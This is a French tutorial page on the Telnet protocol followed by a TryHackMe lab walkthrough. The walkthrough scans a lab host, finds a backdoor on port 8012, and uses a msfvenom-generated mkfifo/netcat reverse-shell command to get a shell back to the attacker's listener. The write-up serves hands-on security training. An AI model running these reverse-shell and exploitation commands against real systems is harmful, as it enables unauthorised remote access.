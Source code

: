```yaml
---
sidebar: auto
date: 2024-04-21
---
```

# Protocole Telnet
<Badge type="tip" text="Rédigé le 21/04/2024" />

## Introduction à Telnet

Telnet est un protocole d'application permettant de se connecter à une machine distante via un réseau. Il fonctionne sur la couche d'application du modèle TCP/IP, facilitant la communication textuelle entre deux appareils.

### Fonctionnement de Telnet

1. ***Connexion Client-Serveur***: Le client Telnet initie une connexion TCP avec le serveur Telnet. Cette connexion se fait généralement sur le port 23, le port par défaut pour Telnet.
2. ***Poignée de main***: Une fois la connexion établie, un processus de poignée de main se déroule entre le client et le serveur pour négocier divers paramètres, tels que le type de terminal, l'ensemble de caractères et la vitesse du terminal.
3. ***Session interactive***: Après la poignée de main, le client présente à l'utilisateur un invite de commande, transformant ainsi le client en un terminal virtuel. À partir de là, l'utilisateur peut saisir des commandes et interagir avec le système distant comme s'il était physiquement présent à sa console.
4. ***Échange de données***: Toutes les commandes saisies par l'utilisateur à l'invite de commande Telnet sont transmises sur le réseau au serveur Telnet. De même, toute sortie générée par le serveur en réponse à ces commandes est renvoyée au client pour affichage.

### Remarque sur la sécurité de Telnet

Il est important de noter que Telnet présente des vulnérabilités de sécurité significatives. Il transmet toutes les données, y compris les mots de passe et autres informations sensibles, en texte clair, le rendant susceptible à l'interception et à l'écoute clandestine. En raison de ces risques de sécurité inhérents, Telnet a largement été remplacé par des alternatives plus sécurisées telles que SSH (Secure Shell) dans les implémentations modernes.

Pour se connecter à un serveur Telnet, on utilise généralement la syntaxe en ligne de commande : `telnet [nom d'hôte ou adresse IP] [port]`. Par exemple, `telnet exemple.com 23` tenterait d'établir une connexion Telnet à un serveur au nom d'hôte spécifié (exemple.com) sur le port 23.

## Énumération

L'énumération des clés peut être cruciale dans l'exploitation d'un service réseau mal configuré. Cependant, les vulnérabilités qui pourraient être potentiellement triviales à exploiter ne sautent pas toujours aux yeux. Pour cette raison, notamment en ce qui concerne l'énumération des services réseau, on doit être méthodiques dans notre approche.

### Exemple avec 10.10.65.56

On commence par énumérer les ports actifs :
```shell
┌──(rootdev㉿kali)-[~]
└─$ nmap -p- -v -A 10.10.65.56  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-22 00:04 CEST
[...]
Scanning 10.10.65.56 [65535 ports]
Discovered open port 8012/tcp on 10.10.65.56
Completed Connect Scan at 00:06, 130.21s elapsed (65535 total ports)
Initiating Service scan at 00:06
Scanning 1 service on 10.10.65.56
Completed Service scan at 00:09, 157.57s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.65.56.
[...]
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8012/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    SKIDY'S BACKDOOR. Type .HELP to view commands
```
Si on avait scanner sans l'option `-p-`, le port 8012 n'aurait pas été trouvé car il n'est pas considéré comme un port standard, ou du top 1000 des ports.
On se rend compte ici de l'importance de prendre le temps de tout scanner, cela permet d'éviter de passer à côté de certaines vulnérabilités.

Dans les résultats de ce scan, on peut lire `SKIDY'S BACKDOOR. Type .HELP to view commands`, ce qui signifie que ce port peut potentiellement être utilisé pour insérer une Backdoor.

## Exploiter Telnet

Telnet, en tant que protocole, est intrinsèquement non sécurisé pour les raisons évoquées précédemment. Il manque de chiffrement, ce qui signifie que ***toutes les communications sont envoyées en texte clair***, et pour la plupart, il présente de faibles contrôles d'accès. Des CVE (Vulnérabilités et Expositions Communes) existent pour les systèmes clients et serveurs Telnet, ce qui permet de vérifier ces vulnérabilités sur des bases de données telles que :

https://www.cvedetails.com/

https://cve.mitre.org/

Un CVE est une liste de failles de sécurité informatique publiquement divulguées. Lorsqu'on fait référence à un CVE, on se réfère généralement au numéro d'identification CVE attribué à une faille de sécurité.

Cependant, il est beaucoup plus probable de trouver une mauvaise configuration dans la façon dont Telnet a été configuré ou fonctionne, ce qui permettra à un attaquant de l'exploiter.

### Démontage de la méthode

Ainsi, à partir de l'étape d'énumération, il est connu que :

1. Il y a un service Telnet mal dissimulé en cours d'exécution sur cette machine.
2. Le service lui-même est marqué comme "backdoor".
3. Il existe un nom d'utilisateur possible "Skidy" impliqué.

En utilisant ces informations, l'attaquant peut essayer d'accéder à ce port Telnet et d'utiliser cela comme un point d'appui pour obtenir un shell inversé complet sur la machine cible.

#### Connexion à Telnet

Il est possible de se connecter à un serveur Telnet avec la syntaxe suivante :

```shell
telnet [ip] [port]
```

### Qu'est-ce qu'un Shell Inversé ?

Un "shell" peut simplement être décrit comme un morceau de code ou un programme qui peut être utilisé pour obtenir l'exécution de code ou de commandes sur un appareil.

Un shell inversé est un type de shell dans lequel la machine cible communique avec la machine attaquante.

La machine attaquante a un port d'écoute, sur lequel elle reçoit la connexion, ce qui permet d'atteindre l'exécution de code ou de commandes.

### Exploit

Connexion en Telnet à la machine :
```shell
┌──(rootdev㉿kali)-[~]
└─$ telnet 10.10.65.56 8012
Trying 10.10.65.56...
Connected to 10.10.65.56.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```
Aucun retour sur les commandes, en revanche, lorsque l'on écoute les ping, on se rend compte que notre machine attaquante communique bien avec l'attaquée :
```shell
┌──(rootdev㉿kali)-[~]
└─$ sudo tcpdump ip proto \\icmp -i tun0

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:28:53.364751 IP 10.11.82.176 > 10.10.65.56: ICMP echo request, id 32639, seq 1, length 64
00:28:53.412509 IP 10.10.65.56 > 10.11.82.176: ICMP echo reply, id 32639, seq 1, length 64
```
Grâce à cela, on peut envoyer un Reverse Shell avec ***msfvenom*** :
```shell
┌──(rootdev㉿kali)-[~/]
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.11.82.176 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/vsnfs; nc 10.11.82.176 4444 0</tmp/vsnfs | /bin/sh >/tmp/vsnfs 2>&1; rm /tmp/vsnfs
```
* *-p = payload*
* *lhost = our local host IP address (this is your machine's IP address)*
* *lport = the port to listen on (this is the port on your machine)*
* *R = export the payload in raw format*

Et celui-ci, on va l'exécuter sur la machine attaquée après avoir écouté le port 4444 avec la commande `nc -lvp 4444`

Sur le terminal Telnet, on exécute :
```shell
.RUN mkfifo /tmp/vsnfs; nc 10.11.82.176 4444 0</tmp/vsnfs | /bin/sh >/tmp/vsnfs 2>&1; rm /tmp/vsnfs
```

On se rend compte ainsi que sur le terminal où l'on écoute le port 4444 que l'on est connecté :
```shell
┌──(laguigue㉿kali)-[~]
└─$ nc -lvp 4444              
listening on [any] 4444 ...
10.10.65.56: inverse host lookup failed: Unknown host
connect to [10.11.82.176] from (UNKNOWN) [10.10.65.56] 39200
```

Ici, il s'agit d'un exemple très simplé du cours TryHackMe sur les [services réseaux](https://tryhackme.com/r/room/networkservices), malgré qu'il soit très peu probable que ce soit si facile en situation réelle.

<hr>
<br>

::: info Sources
Ce cours s'inspire (et utilise les images) de TryHackMe.com de la chambre "*Network Services*" :
https://tryhackme.com/r/room/networkservices
:::